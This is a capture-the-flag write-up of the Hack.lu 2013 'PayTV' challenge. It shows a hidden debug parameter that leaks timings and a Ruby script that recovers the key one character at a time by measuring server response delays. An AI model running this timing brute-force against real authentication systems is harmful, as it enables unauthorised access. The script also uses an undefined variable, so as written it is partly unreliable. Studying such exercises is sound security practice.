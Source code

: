 ```yaml
---
layout: post
title: "Hack.lu 2013 - PayTV"
date: 2013-10-27 15:38
author: stacks0n
comments: true
categories: web, bruteforce, timing
---
```


## Challenge
These robo-friends were shocked to see that they had to pay to watch the news broadcast about the “Oktoberfest”. Can you help them?

Here is your challenge: https://ctf.fluxfingers.net:1316/

## Analysis
Notice the following code in key.js in which they have commented out additionally sending '&debug'
```
document.forms[0].addEventListener('submit', function(e) {
    var key = document.getElementById('key').value;
    var xhr = new XMLHttpRequest();
    xhr.open('post', document.forms[0].action);
    xhr.addEventListener('load', function() {
        data = JSON.parse(xhr.responseText);
        if (data['success']) {
            document.getElementById('error').style.display = 'none';
            document.getElementById('noise').style.display = 'none';
            document.getElementById('news').style.display = 'block';
            document.getElementById('newstext').innerHTML = data['response'];
        } else {
            document.getElementById('error').innerHTML = data['response'];
        }
    });
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('key=' + encodeURIComponent(key)/* + '&debug'*/)
    e.preventDefault();
    return false;
});
document.getElementById('key').focus();
```

Once we enable the debug parameter, we get some additional output in the response from the server:
```
{"start": 1382450009.388883, "end": 1382450009.388933, "response": "Wrong key.", "success": false}
```

The start and end times would indicate how long the comparison ran. I would guess that if we iterate character by character and compare the response times that we should be able to incrementally determine the password.

Running a few guesses manually, I am seeing that a correct character seems to incur a delay of at least 0.1 seconds, while most failures include a very short delay.

## Code
```ruby
#!/usr/bin/env ruby
require 'json'
require 'uri'
require 'net/http'

uri = URI("https://ctf.fluxfingers.net:1316/gimmetv")
headers =
{
    'Cookie' => "session=9ca658a4d71a9955b5ce2f573782d589ba7589ece79460c198ae4a98b39ea8072b589fce",
    'Content-Type' => "application/x-www-form-urlencoded"
}

keyspace = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_-!@\#$%^&*()+=,./<>?`~{}[]\|"

i = 0
base = ""

while i < keyspace.size
    guess = keyspace[i]
    postdata = "key=#{URI.escape(base+guess)}&debug"

    https = Net::HTTP.new(uri.host, uri.port)
    https.use_ssl = true

    response = https.post(uri.path, postdata, headers)
    json = JSON.parse(response.body)
    elapsed = json['end'].to_f - json['start'].to_f

    # debugging
    # puts "Guess: #{base+guess}\tElapsed Time: #{elapsed}"

    if not json['response'].match(/Wrong key./)
        print guess
        puts ""
        puts json.inspect
        exit
    end

    # appears to be roughly 0.1 second for each correct character
    if elapsed > (0.1 * (base + guess).size)
        print guess
        base += guess
        threshold += elapsed
        i = -1
    else
    end
    i += 1
end
```

## Solution
```bash
% ruby paytv.rb
AXMNP93
{"start"=>1382454502.79326, "end"=>1382454503.49557, "response"=>"OH_THAT_ARTWORK!", "success"=>true}
```

```OH_THAT_ARTWORK!```
